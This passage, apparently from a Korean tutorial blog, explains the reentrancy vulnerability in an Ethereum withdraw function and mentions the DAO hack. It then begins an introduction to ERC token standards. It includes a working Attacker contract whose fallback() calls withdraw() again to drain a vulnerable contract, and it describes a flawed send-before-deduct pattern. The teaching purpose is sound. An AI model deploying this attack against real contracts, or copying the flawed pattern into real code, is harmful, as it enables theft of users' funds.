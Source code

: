 ```
        balances[msg.sender] -= _amount;
    }
}
```
위의 코드는 간단한 계정 입출금을 처리하는 스마트 컨트랙트이다. `deposit()` 함수를 호출하여 잔액을 입금하고, `withdraw()` 함수를 호출하여 잔액을 출금할 수 있다. 위 코드를 분석해 보면 하나의 취약점이 있다. `withdraw()` 함수에서 잘못된 방식으로 외부로 돈을 출금하고 있다. 구현되어 있는 로직을 보면 돈을 먼저 출금한 이후에 사용자의 잔액을 차감하고 있다. 이 경우에 트랜잭션이 끝나기 전에 공격자는 `withdraw()` 함수를 재호출할 수 있다.

![](https://substackcdn.com/image/fetch/f_auto,q_auto:good,fl_progressive:steep/https%3A%2F%2Fbucketeer-e05bbc84-baa3-437e-9518-adb32be77984.s3.amazonaws.com%2Fpublic%2Fimages%2Fc889fbc8-ca9c-47cd-91fb-07fcd1ab987c_1518x801.png)

재진입 공격을 구성도로 나타내면 위와 같다. 재진입 공격에 취약한 스마트 컨트랙트는 잔액 출금 트랜잭션이 끝난 이후에 잔액을 차감한다. 그러나 출금 트랜잭션이 끝나기 전에 `fallback()` 또는 `receive()` 함수를 통해서 취약한 컨트랙트의 `withdraw()` 함수를 재호출함으로 잔액이 차감되기 전에 다시 컨트랙트 내에 있는 자금을 해커의 잔액만큼 계속 가져올 수 있다. (해커의 잔액이 0으로 업데이트되지 않았기 때문에 출금이 되었더라도 현재 잔액은 그대로 저장되어 있음.)

```
contract Attacker {
    Vulnerable vulnerable;

    constructor(address _vulnerableAddress) {
        vulnerable = Vulnerable(_vulnerableAddress);
    }

    function attack() public payable {
        vulnerable.deposit{value: msg.value}();
        vulnerable.withdraw(msg.value);
    }

    fallback() external payable {
        if (address(vulnerable).balance >= msg.value) {
            vulnerable.withdraw(msg.value);
        }
    }
}
```
재진입 공격 코드는 위와 같이 작성할 수 있다. 취약한 컨트랙트의 `deposit()` 함수를 이용해서 이더를 송금한 이후에 withdraw() 함수를 이용해서 잔액을 출금한다. 이때 취약한 컨트랙트에서 Attacker 컨트랙트로 돈을 송금하면 `fallback()` 함수가 호출된다. 이 `fallback()` 함수 내에서 바로 취약한 컨트랙트의 withdraw() 함수를 재호출해서 잔액을 다시 출금할 수 있다. 번외로 [The Dao](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao)라는 보안계의 한 획을 그은 사건이 있다. 해커가 재진입 공격을 이용해 6천만 달러의 이더리움을 탈취한 사건이다.

---
## ERC 토큰이란

이더리움에서 토큰은 스마트 컨트랙트를 기반으로 발행된 디지털 자산을 의미한다. 쉽게 말하면 암호화폐와 같은 맥락으로 보면 될 거 같다. 이더리움 블록체인 위에서 독자적인 토큰이나 가상 자산을 만들어내기 위해서는 `ERC-20`, `ERC-721`, `ERC-1155`와 같은 토큰 표준을 준수하는 스마트 컨트랙트를 개발해야한다. 이 토큰들은 이더리움에서 거의 모든 것을 나타낼 수 있는데 게임 내에서 캐릭터의 스킬이나 복권 또는 온라인 플랫폼에서 평판 점수와 같이 모든 것에 대해서 토큰을 발행해 사용할 수 있다.


### ERC-20

ERC-20은 대체 가능한 토큰에 대한 표준이다. 이 ERC-20은 각 토큰을 다른 토큰으로 동일하게 만들 수 있는 속성이 있다.

- 사용자로부터 다른 사용자에게 토큰을 전송
- 사용자의 현재 잔액 확인
- 현재 네트워크에 사용 가능한 총 공급량 확인
- 제 3자에게 토큰을 양도할 수 있도록 승인
